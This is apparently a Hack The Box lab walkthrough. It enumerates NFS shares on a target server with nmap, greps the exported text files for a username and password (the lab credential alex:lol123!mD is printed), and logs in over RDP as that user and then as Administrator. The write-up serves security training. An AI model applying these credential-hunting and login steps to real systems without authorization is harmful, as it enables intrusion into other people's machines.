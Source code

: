 This second server is a server that everyone on the internal network has access to. In our discussion with our client, we pointed out that these servers are often one of the main targets for attackers and that this server should be added to the scope.

Our customer agreed to this and added this server to our scope. Here, too, the goal remains the same. We need to find out as much information as possible about this server and find ways to use it against the server itself. For the proof and protection of customer data, a user named HTB has been created. Accordingly, we need to obtain the credentials of this user as proof.






## Nmap the IP
<img width="857" height="175" alt="image" src="https://github.com/user-attachments/assets/dfc3f390-eaab-4e17-b917-e0d787927d96" />
<img width="708" height="439" alt="image" src="https://github.com/user-attachments/assets/0c1dd19c-91b7-4836-9fc0-4f2c309b3cd8" />

## Identified PORT -- 111 and 2049 for enumeration begginening

```
nmap --script nfs* IP -sV -p111,2049
```

<img width="490" height="82" alt="image" src="https://github.com/user-attachments/assets/3c85f622-f568-42e8-b238-f3cc41abef89" />

<img width="875" height="152" alt="image" src="https://github.com/user-attachments/assets/f4f8dfbf-91cc-4b5f-bd6b-9c3327ed3dd3" />

<img width="567" height="392" alt="image" src="https://github.com/user-attachments/assets/e26c56d4-b9f8-4bb8-bb29-b3f0b5a2e771" />

You will get lots of txt file

enumerate them by

```
grep -i 'htb' *.txt
```

this fill scan all the text file and find the htb content from the txt file

<img width="910" height="74" alt="image" src="https://github.com/user-attachments/assets/bf5ff029-871b-4ef7-a466-83dd670ae29e" />

u will get username and now u have to find password 

```
grep -i 'password' *.txt
```

<img width="598" height="79" alt="image" src="https://github.com/user-attachments/assets/68c5229c-2137-40f4-8a42-f322e8360037" />


now u have password also  `alex:lol123!mD`

### Enumerate with Xfreerdp

```
xfreerdp /v:IP /u:alex /p:’lol123!mD’
```

enumerate this server and u will get password for Administrator 

### login to mssm

```
xfreerdp /v:IP /u:Administrator /p:PASSWORD
```


<img width="852" height="511" alt="image" src="https://github.com/user-attachments/assets/1e94c208-3933-4109-8bbc-6f16cffbcd58" />




<img width="954" height="127" alt="image" src="https://github.com/user-attachments/assets/36e3b69f-c06c-4968-9580-9c6380c05ab6" />

